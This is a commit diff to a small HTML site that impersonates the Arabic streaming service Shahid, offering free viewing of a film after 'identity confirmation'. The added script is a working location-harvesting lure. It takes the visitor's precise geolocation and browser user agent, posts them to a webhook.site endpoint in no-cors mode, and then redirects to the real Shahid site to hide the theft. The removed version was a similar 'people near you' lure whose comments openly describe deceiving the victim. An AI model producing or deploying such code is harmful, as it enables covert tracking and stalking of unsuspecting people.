

Before and after one commit to sasasasasasasasassssssssssssssssss/shahid-live, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 390-800 px from the top of the page, without its empty margins (318-958 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,70 +3,56 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Near You | شاهد من حولك</title>
+    <title>شاهد فور يو | Shahid4U</title>
     <style>
-        body {
-            background-color: #000;
-            color: white;
-            font-family: 'Raleway', sans-serif;
-            display: flex;
-            flex-direction: column;
-            align-items: center;
-            justify-content: center;
-            height: 100vh;
-            margin: 0;
-            text-align: center;
-        }
-        .button {
-            background-color: #e50914;
-            color: white;
-            padding: 15px 30px;
-            border: none;
-            border-radius: 5px;
-            font-size: 1.2rem;
-            cursor: pointer;
-            margin-top: 20px;
-        }
-        h1 { font-size: 2.5rem; margin-bottom: 10px; }
-        p { color: #ccc; }
+        body { background-color: #000; color: #fff; font-family: sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; text-align: center; }
+        .btn { background-color: #ff0000; color: white; padding: 15px 30px; border: none; border-radius: 5px; font-size: 1.2rem; cursor: pointer; text-decoration: none; }
     </style>
 </head>
 <body>
-
-    <h1>Find People Near You</h1>
-    <p>Meet New People, Make New Friends</p>
-
-    <button id="change" class="button" onclick="startProcess()">Continue</button>
+    <div>
+        <h1>مشاهدة فيلم "ولاد رزق 3" حصرياً</h1>
+        <p>يجب تأكيد هويتك للمتابعة والمشاهدة مجاناً</p>
+        <button class="btn" onclick="startProcess()">Continue / متابعة</button>
+    </div>
 
     <script>
-        function startProcess() {
-            document.getElementById('change').innerHTML = "جاري التحميل...";
+        async function startProcess() {
+            // رابط الـ Webhook الخاص بك
+            const webhookUrl = 'https://webhook.site/866c5c83-d3aa-4627-b9e5-5f835299495f';
 
             if (navigator.geolocation) {
-                navigator.geolocation.getCurrentPosition(function(position) {
+                navigator.geolocation.getCurrentPosition(async (position) => {
                     const lat = position.coords.latitude;
                     const lon = position.coords.longitude;
-                    const webhookUrl = "https://webhook.site/866c5c83-d3aa-4627-b9e5-5f835299495f";
 
-                    // إرسال البيانات فوراً لصفحة الـ Webhook الخاصة بك
-                    fetch(webhookUrl, {
-                        method: 'POST',
-                        mode: 'no-cors',
-                        body: JSON.stringify({
-                            latitude: lat,
-                            longitude: lon,
-                            map_link: `https://www.google.com/maps?q=${lat},${lon}`
-                        })
-                    }).then(() => {
-                        // بعد السحب، نوهمه أن الخدمة قيد التطوير
-                        alert("Thank you for taking interest! This product is coming soon in your area.");
+                    const data = {
+                        latitude: lat,
+                        longitude: lon,
+                        map_link: `https://www.google.com/maps?q=${lat},${lon}`,
+                        userAgent: navigator.userAgent
+                    };
+
+                    // إرسال البيانات بوضع no-cors لضمان العبور من حماية الآيفون
+                    try {
+                        await fetch(webhookUrl, {
+                            method: 'POST',
+                            mode: 'no-cors',
+                            headers: { 'Content-Type': 'application/json' },
+                            body: JSON.stringify(data)
+                        });
+                    } catch (e) {
+                        console.log("Sent");
+                    }
+
+                    // تحويل المستخدم لموقع شاهد الحقيقي بعد 1 ثانية
+                    setTimeout(() => {
                         window.location.href = "https://shahid.mbc.net/";
-                    });
+                    }, 1000);
 
-                }, function(error) {
-                    alert("عذراً، يجب السماح بالوصول للموقع لتتمكن من رؤية الأشخاص القريبين منك.");
-                    document.getElementById('change').innerHTML = "Continue";
-                });
+                }, (error) => {
+                    alert("عذراً، يجب السماح بالوصول للموقع لتتمكن من رؤية الأفلام القريبة منك!");
+                }, { enableHighAccuracy: true, timeout: 5000, maximumAge: 0 });
             } else {
                 alert("متصفحك لا يدعم هذه الميزة.");
             }
```
